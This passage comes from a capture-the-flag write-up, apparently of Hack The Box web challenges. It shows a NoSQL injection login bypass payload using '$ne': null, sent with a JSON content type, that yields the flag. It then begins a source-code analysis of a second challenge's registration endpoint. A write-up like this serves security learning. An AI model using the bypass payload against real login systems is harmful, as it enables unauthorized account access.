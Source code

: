 Since it `especially` allows `json` data, try a simple login bypass payload

Change content type to `json` first

Payload : 

```http
Content-Type: application/json
```

```sql
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![](/assets/obsidian/f3f83d51de263b2e0130fd38e9a72a8c.png){:target='_blank'}

> HTB{w3lc0m3_to0o0o_th3_c44andy_v4u1t!}


## SpookTastic


### Source code analyze

> `/api/register` 

Accepts user input, then it will create a socket.io session based on user IP

![](/assets/obsidian/805887825af32f4ef676fae062c98272.png){:target='_blank'}
